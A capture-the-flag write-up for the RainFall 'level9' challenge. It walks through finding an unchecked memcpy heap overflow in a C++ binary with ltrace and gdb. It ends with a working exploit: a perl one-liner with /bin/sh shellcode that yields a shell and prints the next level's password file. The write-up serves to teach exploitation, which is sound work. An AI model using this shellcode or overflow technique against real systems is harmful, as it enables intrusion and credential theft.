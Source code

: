 We notice that this level is written in C++.

We also notice that beyond 108 characters, le program segfaults :

> level9@RainFall:~$ ./level9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA   
> Segmentation fault (core dumped)

In fact, it is a `memcpy` function that segfaults :

>level9@RainFall:~$ ltrace ./level9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA    
> __libc_start_main(0x80485f4, 2, 0xbffff774, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) = 0
_Znwj(108, 0xbffff774, 0xbffff780, 0xb7d79e55, 0xb7fed280) = 0x804a008
_Znwj(108, 5, 0xbffff780, 0xb7d79e55, 0xb7fed280) = 0x804a078
strlen("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...) = 109
memcpy(0x0804a00c, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 109) = 0x0804a00c
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

The `memcpy` function is called in the `setAnnotation`. Because it uses the length of the string with `strlen`, but there is no control of the size, so we can overflow and cause changes to the heap.

Let's start the program while putting a breakpoint to `setAnnotation` function : 

> (gdb) disas main    
> Dump of assembler code for function main:   
   0x080485f4 <+0>:	push   %ebp   
   0x080485f5 <+1>:	mov    %esp,%ebp   
   0x080485f7 <+3>:	push   %ebx   
   0x080485f8 <+4>:	and    $0xfffffff0,%esp   
   0x080485fb <+7>:	sub    $0x20,%esp   
   0x080485fe <+10>:	cmpl   $0x1,0x8(%ebp)   
   0x08048602 <+14>:	jg     0x8048610 <main+28>   
   0x08048604 <+16>:	movl   $0x1,(%esp)   
   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>   
   0x08048610 <+28>:	movl   $0x6c,(%esp)   
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>   
   0x0804861c <+40>:	mov    %eax,%ebx   
   0x0804861e <+42>:	movl   $0x5,0x4(%esp)   
   0x08048626 <+50>:	mov    %ebx,(%esp)   
   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>   
   0x0804862e <+58>:	mov    %ebx,0x1c(%esp)   
   0x08048632 <+62>:	movl   $0x6c,(%esp)   
   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>   
   0x0804863e <+74>:	mov    %eax,%ebx   
   0x08048640 <+76>:	movl   $0x6,0x4(%esp)   
   0x08048648 <+84>:	mov    %ebx,(%esp)   
   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>   
   0x08048650 <+92>:	mov    %ebx,0x18(%esp)   
   0x08048654 <+96>:	mov    0x1c(%esp),%eax   
   0x08048658 <+100>:	mov    %eax,0x14(%esp)   
   0x0804865c <+104>:	mov    0x18(%esp),%eax   
   0x08048660 <+108>:	mov    %eax,0x10(%esp)   
   0x08048664 <+112>:	mov    0xc(%ebp),%eax   
   0x08048667 <+115>:	add    $0x4,%eax   
   0x0804866a <+118>:	mov    (%eax),%eax   
   0x0804866c <+120>:	mov    %eax,0x4(%esp)   
   0x08048670 <+124>:	mov    0x14(%esp),%eax   
   0x08048674 <+128>:	mov    %eax,(%esp)   
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAn   notationEPc>       
   0x0804867c <+136>:	mov    0x10(%esp),%eax   
   0x08048680 <+140>:	mov    (%eax),%eax   
---Type <return> to continue, or q <return> to quit---   
   0x08048682 <+142>:	mov    (%eax),%edx   
   0x08048684 <+144>:	mov    0x14(%esp),%eax   
   0x08048688 <+148>:	mov    %eax,0x4(%esp)   
   0x0804868c <+152>:	mov    0x10(%esp),%eax   
   0x08048690 <+156>:	mov    %eax,(%esp)   
   0x08048693 <+159>:	call   *%edx   
   0x08048695 <+161>:	mov    -0x4(%ebp),%ebx   
   0x08048698 <+164>:	leave     
   0x08048699 <+165>:	ret   

> (gdb) br *0x08048677   
> Breakpoint 1 at 0x8048677

Before we run the program we put an argument to create the overflow

> (gdb) set args $(python -c 'print("A"*128)')

> (gdb) r

> Starting program: /home/user/level9/level9 $(python -c 'print("A"*128)')    
> Breakpoint 1, 0x08048677 in main ()    

> (gdb) i r    
eax            0x804a008	134520840    
ecx            0x20f21	134945    
edx            0x6	6    
ebx            0x804a078	134520952    
esp            0xbffff690	0xbffff690    
ebp            0xbffff6b8	0xbffff6b8    
esi            0x0	0    
edi            0x0	0    
eip            0x8048677	0x8048677 <main+131>    
eflags         0x200282	[ SF IF ID ]    
cs             0x73	115    
ss             0x7b	123    
ds             0x7b	123    
es             0x7b	123    
fs             0x0	0    
gs             0x33	51    

We have the address of the `eax` that we could write on, but this doesn't work much. Because of the length of the address, we nedd to add 4 bytes.

```
level9@RainFall:~$ python
Python 2.7.3 (default, Jun 22 2015, 19:43:34) 
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> int('0x804a008', 16) + 4
134520844
>>> hex(134520844)
'0x804a00c'
```

We to overflow this address to inject a shellcode that can open a shell (payload : shellcode + A * (109 - 53) + address): 

> level9@RainFall:~$ ./level9 `perl -e 'print "\x10\xa0\x04\x08\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80","A"x56,"\x0c\xa0\x04\x08"'`    

> $ whoami   
bonus0

> $ cat /home/user/bonus0/.pass    
>f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728

# Sources : 

https://seanmurphree.com/blog/?p=157